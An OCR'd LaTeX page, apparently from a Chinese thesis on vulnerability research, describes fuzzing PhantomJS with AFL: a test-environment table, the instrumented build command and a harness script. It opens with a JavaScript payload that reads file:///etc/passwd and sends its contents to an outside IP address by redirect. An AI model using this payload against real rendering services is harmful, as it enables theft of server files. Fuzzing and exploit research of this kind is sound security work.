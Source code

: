 \documentclass[doctor,privacy,twoside]{buaa_mac}
\begin{document}
\lstset{language=JavaScript}
\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
	    window.location.href="http://7.9.5.4/index.php?msg=" + xhr.responseText;
    }
}
xhr.open('GET', 'file:///etc/passwd', true);
xhr.send(null);
\end{lstlisting}



\section{漏洞挖掘与分析}

\subsection{漏洞挖掘AFL示例}
如下表\ref{tab:afl-env}所示，是AFL工具使用的漏洞挖掘环境。

\centerline{}
\begin{table}[h]
  \caption{AFL漏洞挖掘环境概况}
  \label{tab:afl-env}
  \centering
\begin{tabular}{|p{3cm}<{\centering}|p{3cm}<{\centering}|p{3cm}<{\centering}|p{1cm}<{\centering}|p{3cm}<{\centering}|}
    \hline
   \textbf{操作系统版本} & \textbf{内核版本} & \textbf{处理器} & \textbf{内存} &  \textbf{AFL版本}   \\
    \hline
ubuntu 16.04 x64 &  4.4.0-151-generic & 4 cores Intel(R) Xeon(R) Platinum 8269CY CPU @ 2.50GHz & 8G   & pythia (afl 2.5.1b) \\
\hline
    \end{tabular}
\end{table}
\centerline{}



首先使用AFL提供的afl-gcc以及afl-g++来编译PhantomJS，二次编译的目的是为了在程序中插桩，通过插桩来获取程序运行时的执行路径，以此来计算fuzz的覆盖率指标。

\lstset{language=JavaScript}
\begin{lstlisting}
CC=/usr/local/bin/afl-gcc CXX=/usr/local/bin/afl-g++  CXXFLAGS="-Winvalid-pch" python build.py
\end{lstlisting}

为了使得PhantomJS能够加载和渲染相应的网页，我们需要编写额外的javascript的程序进行引导。该程序只需要实现访问网页并渲染的基本功能即可：

\lstset{language=JavaScript}
\begin{lstlisting}
"use strict";
var page = require('webpage').create(),address, output,system = require('system'),
output = "/var/www/html/out.png";
page.content = '<html><h1>hello world!</h1></html>';
page.content = system.stdin.readLine();
window.setTimeout(function () {
            page.render(output);
            phantom.exit();
        }, 200);
\end{lstlisting}
\end{document}
